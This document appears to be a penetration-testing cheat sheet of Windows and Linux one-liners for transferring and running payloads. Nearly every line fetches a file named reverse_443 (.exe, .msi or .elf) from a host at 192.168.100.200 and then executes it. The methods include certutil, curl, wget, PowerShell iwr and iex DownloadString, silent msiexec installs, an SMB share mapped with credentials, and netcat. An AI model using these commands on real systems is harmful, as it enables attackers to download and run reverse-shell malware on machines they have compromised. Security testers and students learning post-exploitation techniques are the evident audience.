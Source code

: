 # Windows

```cmd
certutil -f -urlcache http://192.168.100.200/reverse_443.exe C:/ProgramData/reverse_443.exe
```

```cmd
curl http://192.168.100.200/reverse_443.exe > C:/ProgramData/reverse_443.exe
```

```cmd
wget http://192.168.100.200/reverse_443.exe -O C:/ProgramData/reverse_443.exe
```

```cmd
C:\ProgramData\reverse_443.exe
```

Recurse wget
```cmd
wget --recursive --no-parent http://192.168.100.200/folder
```
## Powershell

```powershell
iwr -uri http://192.168.100.200/reverse_443.msi -Outfile C:/ProgramData/reverse_443.msi
```

Executables
```powershell
C:\ProgramData\reverse_443.msi
```
or if installers
```powershell
msiexec.exe /i "C:\ProgramData\reverse_443.msi" /quiet
```

```bash
powershell -c "iex ((New-Object System.Net.WebClient).DownloadString('http://192.168.100.200/reverse_443.msi'))"
```

## SMB

```cmd
net use z: \\192.168.100.200\exfil kali /user:kali
```

```cmd
copy z:\reverse_443.exe C:\ProgramData\reverse_443.exe
```

```cmd
C:\ProgramData\reverse_443.exe
```
# Linux

```bash
curl http://192.168.100.200/reverse_443.elf > /tmp/reverse_443.elf
```

```bash
wget http://192.168.100.200/reverse_443.elf -O /tmp/reverse_443.elf
```

```bash
nc -l 80 < reverse_443.elf

nc 192.168.100.200 80 > /tmp/reverse_443.elf
```

```bash
chmod +x /tmp/reverse_443.elf
```

```bash
/tmp/reverse_443.elf
```